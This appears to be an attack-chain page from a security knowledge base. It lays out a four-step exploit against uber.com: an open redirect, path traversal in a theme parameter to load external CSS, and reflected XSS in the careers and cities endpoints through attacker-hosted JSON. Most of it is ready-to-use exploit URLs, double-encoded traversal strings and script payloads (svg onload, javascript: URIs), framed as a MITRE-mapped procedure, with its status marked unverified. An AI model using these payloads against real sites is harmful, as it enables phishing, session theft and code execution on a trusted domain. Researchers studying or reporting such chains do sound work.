

# Chained Open Redirect, Path Traversal, CSS Injection, and Reflected XSS on Uber.com

Multi-stage attack chain demonstrating exploitation of open redirect and path traversal on Uber.com to load external resources, inject CSS, and execute reflected XSS payloads for JavaScript execution on the uber.com domain.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome with developer tools)
- Optional: Proxy tool like Burp Suite for URL manipulation

### Target Environment

- Target Platform: Web application (uber.com)
- Required services/ports: HTTP/HTTPS on port 80/443
- Network access requirements: Direct internet access to uber.com

### Initial Access Requirements

- No credentials required
- Public network position
- No prior access needed

## Detailed Attack Procedures

### Step 1: Discover Open Redirect Vulnerability
procedure: [[procedures/Discover-Open-Redirect-Vulnerability-on-Uber]]

**Objective**: Identify and validate an open redirect vulnerability that allows redirection to arbitrary external domains without validation.

**Instructions**: Open a web browser and navigate to a manipulated URL on uber.com to test for unvalidated redirects. Use the following URL to trigger a 301 redirect:

`https://www.uber.com/en//example.com/`

Observe the HTTP response headers for a Location header pointing to `//example.com/`, which causes the browser to redirect to the external domain.

**Expected Output**: Browser redirects to the external domain (e.g., example.com), confirming the vulnerability.

**Success Indicators**:
- HTTP 301 response with Location: //example.com/
- Successful redirection to arbitrary external site

### Step 2: Exploit CSS Injection via Theme Parameter
procedure: [[procedures/Exploit-CSS-Injection-via-Theme-Parameter]]

**Objective**: Use path traversal in the theme parameter to inject and load external CSS from an attacker-controlled domain, potentially altering page styles or enabling further attacks.

**Instructions**: In the web browser, construct and access a URL with path traversal in the theme parameter:

`https://www.uber.com/?theme=../en//example.com/css-code.css%23`

This results in the page loading an external stylesheet from `https://example.com/css-code.css`. Inspect the page source to confirm the injected <link> tag: `<link rel="stylesheet" id="theme-css" href="https://uber.com/stylesheets/../en//example.com/css-code.css#.css">`.

**Expected Output**: The browser fetches and applies CSS rules from the external domain.

**Success Indicators**:
- External CSS loaded and applied to the page
- Page styles modified per the injected CSS

### Step 3: Exploit Reflected XSS via Careers List Endpoint
procedure: [[procedures/Exploit-Reflected-XSS-in-Careers-List-Endpoint]]

**Objective**: Leverage path traversal and open redirect to load malicious JSON from an external domain into the /careers/list endpoint, executing XSS payloads reflected in JSON fields.

**Instructions**: Host malicious JSON on an attacker-controlled server (e.g., example.com/file.json) with payloads in fields like 'overview' (`<svg onload="alert('XSS on '+ document.domain)">`) and 'jobUrl' (`javascript:alert(document.domain)`). Then, access the manipulated URL:

`https://www.uber.com/careers/list/..%2f..%2fen%2f%2fexample.com%2ffile.json/`

This causes the endpoint to load JSON from `https://example.com/file.json`, reflecting the payloads and executing JavaScript on the uber.com domain.

**Expected Output**: Alert box pops up with 'XSS on uber.com', confirming code execution.

**Success Indicators**:
- Malicious JSON loaded via redirect
- JavaScript alert or payload execution on uber.com

### Step 4: Exploit Reflected XSS via Cities Endpoint
procedure: [[procedures/Exploit-Reflected-XSS-in-Cities-Endpoint]]

**Objective**: Similar to the careers endpoint, use path traversal to load external malicious JSON into the /cities endpoint, achieving reflected XSS through unsanitized fields.

**Instructions**: Using the same malicious JSON hosted on example.com/file.json with payloads in 'name' (`<marquee>XSS</marquee><svg onload="alert('XSS on '+ document.domain)">`) and other content fields ('XSS'). Access the URL with double-encoded traversal:

`https://www.uber.com/cities/%252e%252e%2f%252e%252e%2fen%2f%2fexample.com%2ffile.json/`

The endpoint loads the JSON, reflects the payloads, and executes them on the uber.com domain.

**Expected Output**: Visible marquee text and alert confirming XSS execution.

**Success Indicators**:
- External JSON loaded and reflected
- Payloads like alerts or marquee execute on uber.com

## Attack Chain Summary

### Key Achievements

1. Demonstrated open redirect allowing arbitrary external domain access.
2. Achieved CSS injection for potential UI manipulation or further chaining.
3. Executed reflected XSS in two endpoints via malicious JSON, proving JavaScript execution on a trusted domain.
4. Highlighted risks of session theft, phishing, or data exfiltration.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[JavaScript]] JavaScript
- [[Drive-by Compromise]] Drive-by Compromise

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution

---

*Last updated: 2023-10-01T00:00:00Z*
